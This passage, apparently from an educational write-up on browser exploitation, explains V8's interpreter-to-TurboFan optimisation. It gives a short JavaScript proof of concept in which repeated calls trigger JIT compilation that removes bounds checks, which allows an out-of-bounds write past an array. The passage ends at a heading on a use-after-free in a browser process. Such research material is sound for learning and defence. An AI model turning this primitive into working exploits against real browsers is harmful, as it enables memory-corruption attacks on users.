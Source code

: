 Basically, a code will be executed with **interpreter (**_**Ignition**_**)** by default, and V8 will keep track of how many times the code segments are executed. If the code segments are executed many times (hot code segments), the code segments will be compiled with a **compiler (**_**TurboFan**_**)**. In this compilation, optimisations will be applied, thus producing a faster execution time.

![](<../../.gitbook/assets/image (13).png>)

Therefore, to make the optimiser remove the bounds-checking, we may need to run the function a lot of times before, thus triggering the JS engine to compile and optimise our `fun` function, eliminating the bounds checking.

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.

## Use-After-Free in Browser Process FileWriterImpl
